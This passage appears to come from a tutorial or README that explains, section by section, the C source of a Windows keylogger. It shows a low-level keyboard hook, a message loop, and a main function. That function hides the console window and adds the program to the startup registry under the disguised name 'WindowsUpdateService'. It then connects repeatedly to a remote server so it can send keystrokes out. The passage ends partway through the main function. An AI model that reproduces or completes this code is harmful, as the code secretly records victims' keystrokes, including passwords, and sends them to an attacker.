 * `nCode == HC_ACTION`: Processes only valid keyboard events
* `wParam == WM_KEYDOWN || WM_SYSKEYDOWN`: Only handles key down events

10. **Message Loop for Keyboard Hook**

Keeps the keyboard hook active, processing messages indefinitely.

```c
void LogKeyPressed() {
    HHOOK keyboardHook = SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardProc, NULL, 0);
    MSG msg;
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }
    UnhookWindowsHookEx(keyboardHook);
}
```

11. **Main Function Overview**

* Hides console window
* Adds executable to startup registry
* Initializes Winsock
* Creates and connects a non-blocking socket to the remote server
* On successful connection, starts logging keys
* On failure, retries after waiting

```c
int main() {
    HideConsole();

    // Add to startup
    char path[MAX_PATH];
    GetModuleFileName(NULL, path, MAX_PATH);
    AddToStartup(path, "WindowsUpdateService");

    // Init Winsock
    WSADATA wsaData;
    if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0)
        return 1;

    struct sockaddr_in serverAddr;
    serverAddr.sin_family = AF_INET;
    serverAddr.sin_port = htons(SERVER_PORT);
    inet_pton(AF_INET, SERVER_IP, &serverAddr.sin_addr);

    while (1) {
        ConnectSocket = CreateNonBlockingSocket();
        if (ConnectSocket == INVALID_SOCKET) {
            Sleep(RETRY_TIME);
            continue;
        }

        if (TryConnect(ConnectSocket, &serverAddr)) {
            // Connected, launch keylogger
            LogKeyPressed();

            // LogKeyPressed blocks; when done, close socket
            closesocket(ConnectSocket);
        }
        else {
            // Failed to connect
            closesocket(ConnectSocket);
            ConnectSocket = INVALID_SOCKET;
            Sleep(RETRY_TIME);
        }
```